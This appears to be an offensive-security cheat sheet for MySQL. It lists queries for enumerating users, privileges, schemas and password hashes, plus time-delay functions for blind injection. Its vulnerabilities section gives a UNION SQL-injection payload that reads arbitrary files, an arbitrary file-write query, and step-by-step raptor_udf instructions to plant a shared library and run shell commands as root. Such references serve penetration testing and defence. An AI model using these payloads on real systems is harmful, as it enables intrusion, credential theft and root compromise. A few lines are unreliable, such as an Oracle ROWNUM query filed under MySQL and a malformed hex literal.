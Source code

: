 # MySQL

## Database commands

### Comments

```
SELECT 1; #comment
SELECT /*comment*/1;
```

### Version

```
SELECT @@version
```

### Users

```
SELECT user();
SELECT system_user();
SELECT user FROM mysql.user; -- priv
CREATE USER <name> IDENTIFIED BY '<pass>'; 
DROP USER <name>; 
GRANT ALL PRIVILEGES ON *.* TO <name>@'%';
SELECT grantee, privilege_type, is_grantable FROM information_schema.user_privileges WHERE privilege_type = 'SUPER';
SELECT host, user FROM mysql.user WHERE Super_priv = 'Y';
```

### Privileges

```
SELECT grantee, privilege_type, is_grantable FROM information_schema.user_privileges;
SELECT host, user, Select_priv, Insert_priv, Update_priv, Delete_priv, Create_priv, Drop_priv, Reload_priv, Shutdown_priv, Process_priv, File_priv, Grant_priv, References_priv, Index_priv, Alter_priv, Show_db_priv, Super_priv, Create_tmp_table_priv, Lock_tables_priv, Execute_priv, Repl_slave_priv, Repl_client_priv FROM mysql.user;
SELECT grantee, table_schema, privilege_type FROM information_schema.schema_privileges
SELECT table_schema, table_name, column_name, privilege_type FROM information_schema.column_privileges;
```

### Database info

```
SELECT database()
SELECT schema_name FROM information_schema.schemata; -- for MySQL >= v5.0
SELECT distinct(db) FROM mysql.db;
SELECT @@datadir;
```

### List tables

```
SELECT table_schema,table_name FROM information_schema.tables WHERE table_schema != 'mysql' AND table_schema != 'information_schema';
```

### List columns

```
SELECT table_schema, table_name, column_name FROM information_schema.columns WHERE table_schema != 'mysql' AND table_schema != 'information_schema';
```

### Filter table by column name

```
SELECT table_schema, table_name FROM information_schema.columns WHERE column_name = ‘’;
```

### Access nth row

```
SELECT username FROM (SELECT ROWNUM r, username FROM all_users ORDER BY username) WHERE r=<nth>;
```

### String operations

```
SELECT substr('<string>', <start>, <end>); # returns c
SELECT char(65); # returns A
SELECT ascii('A'); # returns 65
SELECT 0×414243; # returns ABC
Casting	SELECT cast('1' AS unsigned integer);
SELECT cast('123' AS char);
SELECT CONCAT('A','B','C');
```

### Conditional execution

```
SELECT if(1=1,'foo','bar');
SELECT CASE WHEN (1=1) THEN 'A' ELSE 'B' END;	
```

### Time delay

```
SELECT BENCHMARK(1000000,MD5('A'));
SELECT SLEEP(<seconds>); # >= 5.0.12
```

### Hostname

```
SELECT @@hostname;
```

## Passwords

```
SELECT host, user, password FROM mysql.user; --priv
```

**Format:** SQL

## Vulnerabilities

### Arbitrary file access

```
…' UNION ALL SELECT LOAD_FILE('<readable file>');    #SQLi
```

### Arbitrary file write

```
SELECT * FROM mytable INTO <name> '<path to name>';
```

### Local code execution (raptor\_udf)

Useful if the database is run with root privileges and you know the credentials. Get payload from [https://www.exploit-db.com/exploits/1518](https://www.exploit-db.com/exploits/1518) compile and transfer it to target machine.

1. Login with root credentials `mysql -u root -p <pass>`
2. Find plugin directory `select @@plugin_dir;`
3. Load payload in memory`use mysql;create table foo(line blob);insert into foo values(load_file('<path to payload>'));`
4. Write payload in plugin folder `select * from foo into dumpfile '<plugin folder>/raptor_udf2.so';`
5. Create a function to invoke the payload `create function do_system returns integer soname 'raptor_udf2.so';`
6. Execute commands as root `select do_system("<bash command>");`

